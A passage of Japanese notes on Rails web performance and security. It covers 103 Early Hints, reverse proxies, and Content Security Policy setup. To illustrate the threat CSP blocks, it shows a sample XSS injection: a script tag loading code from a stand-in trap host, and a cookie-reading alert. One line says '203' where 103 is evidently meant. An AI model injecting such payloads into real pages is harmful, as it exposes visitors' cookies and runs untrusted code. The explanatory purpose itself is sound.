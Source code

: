 という順番になるので、1, 2間と4, 5間で待ち時間が発生する。「始めからわかりきったアセットは、もっと早めにもらいたくね？」から生まれた。

```
HTTP/1.1 103 Early Hints
Link: </assets/application.debug-....css>; rel=preload; as=style

HTTP/1.1 103 Early Hints
Link: </pack/js/application-....js>; rel=preload; as=script

HTTP/1.1 200 OK
...（HTMLのレスポンス）
```

こんな感じで事前にアセットのリクエスト先を連絡してもらえるので、2.の前にアセット用のリクエストを送信することができる嬉しい！
ただし、現時点では203に対応したメジャーなブラウザがない＆未対応ブラウザに103を含む複数レスポンスを送信するとセキュリティ上の問題があるので、**リバースプロキシ**を介するのが現実的。

> 【ポイント】 リバースプロキシの基本的な仕組み
> - インターネットとWebサーバーの間に設置
> - Webサーバーを複数設置可能
> - 防御壁（ファイアウォール）として機能する
[リバースプロキシとは？仕組みをわかりやすく解説 \| カゴヤのサーバー研究室](https://www.kagoya.jp/howto/network/reverse-proxy/)

まあ、なんだかんだ現実的にこれが有用かどうかはうーんって感じ。HTTP2の機能だし。
使う前には、本当にそれがいいのか？を調べること。

## Content Security Policy(CSP)

XSSの脆弱性による影響範囲を少なくするための仕組み。

`@post.body.html_safe`のように、ユーザーが入力したタグをそのまま出力したとする。以下のようなJSが送られるとヤバイ。

```html
<script src="http://trap.example.com/dangerjs"></script>
<script>alert(document.cookie)</script>
```

CSPを使うとこのようなXSSを無効にできる。

```
Content-Security-Policy: script-src 'self' www.google-analytics.com
```

このようにホワイトリスト形式で、許可したいドメインを指定する。
`'self'`はレスポンスを送ったサーバーと同一オリジン（ドメイン・ポート番号・URLが同一）であるという意味。

### CSPをRailsで使うには

`config/initializers/content_security_policy.rb`のコメントアウトを外すことで設定できる。

```rb:config/initializers/content_security_policy.rb
# Be sure to restart your server when you modify this file.

# Define an application-wide content security policy
# For further information see the following documentation
# https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

# Rails.application.config.content_security_policy do |policy|
#   policy.default_src :self, :https
#   policy.font_src    :self, :https, :data
#   policy.img_src     :self, :https, :data
#   policy.object_src  :none
#   policy.script_src  :self, :https
#   policy.style_src   :self, :https
#   # If you are using webpack-dev-server then specify webpack-dev-server host
#   policy.connect_src :self, :https, "http://localhost:3035", "ws://localhost:3035" if Rails.env.development?

#   # Specify URI for violation reports
#   # policy.report_uri "/csp-violation-report-endpoint"
```